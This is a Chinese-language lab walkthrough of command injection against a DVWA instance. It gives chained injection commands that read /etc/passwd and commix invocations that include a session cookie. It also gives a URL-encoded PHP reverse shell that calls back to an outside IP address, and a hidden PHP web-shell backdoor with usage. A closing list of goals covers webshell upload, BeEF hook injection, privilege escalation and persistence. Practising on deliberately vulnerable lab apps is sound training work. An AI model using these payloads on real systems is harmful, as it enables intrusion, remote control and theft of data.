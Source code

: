 ### Low
#### 獲取基本信息
用`&&`或`;`銜接指令
```sh
127.0.0.1 && whoami && uname -a && hostname
127.0.0.1 && pwd && echo "\n" && cat /etc/passwd
```
![](https://i.imgur.com/G3AAstv.png)


### Medium
改用 `&`，background cmd

**Commix:**
```bash!
commix -u "https://digidvwa.azurewebsites.net/vulnerabilities/exec/" --cookie="PHPSESSID=0i3t9fijt3qtlhqtq26umenok1; security=high" --data="ip=127.0.0.1&Submit=Submit" -p "ip" --os="Unix"
```
![](https://i.imgur.com/A7Esz4y.jpg)


### Hard
用`|`，不允許空格，如:`| `
```sh!
127.0.0.1|php%20-r%20%27%24sock%3Dfsockopen%28%22159.89.115.68%22%2C1337%29%3Bpopen%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%2C%20%22r%22%29%3B%27
```
**Commix:**
```bash!
commix -u "https://digidvwa.azurewebsites.net/vulnerabilities/exec/" --cookie="PHPSESSID=0i3t9fijt3qtlhqtq26umenok1; security=high" --data="ip=127.0.0.1&Submit=Submit" -p "ip" --os="Unix" --technique=f --web-root="/var/www/html/"
```
    
#### BackDoor
Simple Backdoor, 檔名前面加上 .，管理員`ls`忘記下`-na`會看不到XD
```sh
echo "<?php $var=shell_exec($_GET['input']); echo $var?>" > .backdoor.php
```

使用方式
```sh
https://digidvwa.azurewebsites.net/jim_lee/.backdoor.php?input=uname%20-a
```

#### Reverse Shell
Refer - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

##### 目地
* 可 CRUD /var/www/html/config/config.inc.php
* 上傳WebShell，ETC: Weevely、meterpreter
* 改Layout Page - `dvwa/includes/dvwaPage.inc.php`插入Beef XSS Hook ...etc
* 彈shell後想辦法[提權](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [權限維持](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md)
